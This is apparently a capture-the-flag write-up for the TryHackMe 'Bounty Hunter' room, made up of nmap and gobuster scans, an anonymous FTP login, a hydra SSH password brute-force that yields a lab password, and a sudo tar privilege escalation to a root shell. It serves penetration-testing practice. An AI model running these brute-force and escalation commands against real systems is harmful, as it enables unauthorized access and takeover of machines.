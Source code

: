 # Bounty Hunter

**Room Link:** [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH&#x20;

anonymous login works

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l lin -P locks.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```
Username: lin
Password: RedDr4gonSynd1cat3
```

**Kali**

```
ssh lin@$VICTIM
```

## Privlege Escalation&#x20;

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>







